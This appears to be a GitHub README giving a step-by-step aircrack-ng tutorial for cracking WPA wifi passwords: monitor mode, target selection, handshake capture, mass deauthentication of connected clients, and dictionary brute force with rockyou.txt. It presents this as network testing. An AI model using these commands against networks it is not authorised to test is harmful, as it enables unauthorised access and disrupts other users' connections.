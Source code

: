 # Hacking Wifi
This repository will detail the principle of testing your network. With <a href="https://www.aircrack-ng.org/">aircrack-ng</a>.<br>

__You can look at the script repository for hacking a wifi network. <a href="https://github.com/John-MetrosSoftware/HackingWifiScript">Link</a>.__

## Install aircrack-ng
```
sudo apt install aircrack-ng
```

## Remove unnecessary processes
This command will check and kill processes that might interfere with the aircrack-ng package:
```
sudo airmon-ng check kill
```
## Putting the wifi adapter into monitoring mode
You need to define your network interface. To do this, use the command below, it will display all available network interfaces.
```
ifconfig
```
We are interested in the `wlan0` network interface.<br>
Now we need to put our network adapter into monitoring mode.<br>
```
sudo airmon-ng start wlan0
```
## Monitoring of all wifi networks.
Start browsing wifi networks.
```
sudo airodump-ng wlan0
```
## Monitoring of a specific wifi network.
After viewing, we need to select a target for attack.<br>
The parameters we are interested in are: `bssid` and `channel`.
After the selection, we start interception on a specific access point.
```
airodump-ng --bssid <bssid> -c <cannel> -w <name_wpa_handshake> <network_interface>
```
Example:
```
airodump-ng --bssid ff:ff:ff:ff:ff:ff -c 1 -w handshake wlan0
```
## Wifi network user deauthentication
Now we need to open a new console window.<br>
Now you need to authenticate users of the wifi network. With airplay-ng.
```
aireplay-ng --deauth <number_of_users> -a <bssid> <network_interface>
```
Example:
```
aireplay-ng --deauth 100 -a ff:ff:ff:ff:ff:ff wlan0
```
## Bruteforce
After capturing the handshake, we start brute-force the password using the dictionary. You can use `rockyou.txt` located in `/usr/share/wordlists/rockyou.txt`. If it is packed in an archive, that is, the file name is `rockyou.txt.gz`, then you need to unpack it with the command below.
```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
We will use this dictionary for brute force, but you can use your own.
```
aircrack-ng <name_wpa_handshake> -w <path_to_dictionary>
```
Example:
```
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Conclusion
After that, if specifically in the dictionary you specified there is a password combination that will be correct, then the password will be determined and brute force will end; if there is no such combination in the dictionary, then try in another one.
<br><br>
Here we have analyzed the easiest way to hack a wifi network using brute force.
## Developer 
Telegram : https://t.me/metrossoftware
